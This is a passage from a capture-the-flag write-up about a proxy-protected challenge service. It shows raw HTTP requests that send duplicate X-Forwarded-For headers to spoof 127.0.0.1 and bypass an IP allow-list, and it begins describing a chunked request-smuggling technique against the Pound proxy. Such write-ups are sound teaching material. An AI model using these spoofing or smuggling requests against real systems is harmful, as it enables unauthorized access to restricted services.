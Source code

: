 Now, what will happen if we add another `X-Forwarded-For` header? It should be combined as `X-Forwarded-For: <IP_1>, <IP_2>, <IP_3>`, right?

```http
GET /ping HTTP/1.1
Host: dev.rpc-service.ductf
Auth-Key: fake_token
X-Forwarded-For: 127.0.0.1
X-Forwarded-For: 1.2.3.4


```

```http
HTTP/1.1 403 
Content-Length: 124
Content-Type: text/plain

Access denied: You are not allowed:to access this service. Only 127.0.0.1 are allowed access.. 
The IP recieved was: 1.2.3.4
```

Wait what? Now the received IP is our last forwarded header!

I couldn't find out why. My theory is that if the header is combinable, the value of the last occurrence of the header would be saved.

With that said, we can bypass the `authorized_ips` check!

```http
GET /ping HTTP/1.1
Host: dev.rpc-service.ductf
Auth-Key: fake_token
X-Forwarded-For: 1.2.3.4
X-Forwarded-For: 127.0.0.1


```

```http
HTTP/1.1 200 
Content-Length: 5
Content-Type: text/plain

Pong!
```

##### Intended: SPILL.TERM HTTP/1.1 Request Smuggling

Since Pound version 4.16's release note has an interesting change ("Reject requests with oversized chunk bodies."), maybe we can abuse that to bypass the `authorized_ips` check.

In this GitHub pull request, [Reject requests with oversized chunk bodies #43](https://github.com/graygnuorg/pound/pull/43), [@JeppW](https://github.com/JeppW) said:

> This PR tightens the parsing of chunked HTTP requests by rejecting requests with oversized chunks. By oversized chunks, I mean chunks where the body exceeds the chunk size indicated in the chunk header. E.g.:
> ```
> 5
> AAAAAXXX
> 0
> ```
>   
> Currently, pound logs this error, but 'allows it' (i.e. forwards the entire chunk as-is and lets the backend deal with it).
>   